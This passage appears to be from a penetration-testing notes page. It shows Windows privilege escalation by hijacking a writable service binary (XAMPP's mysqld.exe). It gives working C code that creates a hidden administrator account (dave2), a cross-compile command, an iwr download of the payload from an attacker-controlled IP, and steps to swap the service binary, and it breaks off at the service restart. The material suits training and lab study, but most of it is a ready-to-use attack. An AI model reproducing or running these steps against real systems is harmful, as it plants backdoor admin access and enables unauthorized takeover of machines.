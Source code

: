 ```powershell
# Check the binary's permissions
> icacls "C:\xampp\mysql\bin\mysqld.exe"
C:\xampp\mysql\bin\mysqld.exe NT AUTHORITY\SYSTEM:(F)
                              BUILTIN\Administrators:(F)
                              BUILTIN\Users:(F)

Successfully processed 1 files; Failed processing 0 files
```

We will create a malicious binary to replace the original `mysqld.exe`.

{% tabs %}
{% tab title="1. Payload" %}
{% code title="addUser.c" %}
```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
{% endcode %}
{% endtab %}

{% tab title="2. Cross-compile" %}
```bash
$ x86_64-w64-mingw32-gcc addUser.c -o addUser.exe
```
{% endtab %}

{% tab title="3. Transfer" %}
{% code overflow="wrap" %}
```powershell
# Transfer the malicious binary to the target
iwr -uri http://192.168.45.231/addUser.exe -Outfile mysqld.exe
```
{% endcode %}
{% endtab %}

{% tab title="4. Replace" %}
```powershell
# Backup the original binary
> move C:\xampp\mysql\bin\mysqld.exe mysqld.exe
# Replace the original binary
> move .\addUser.exe C:\xampp\mysql\bin\mysqld.exe
```
{% endtab %}

{% tab title="5. Restart" %}
We can stop and then start the service:
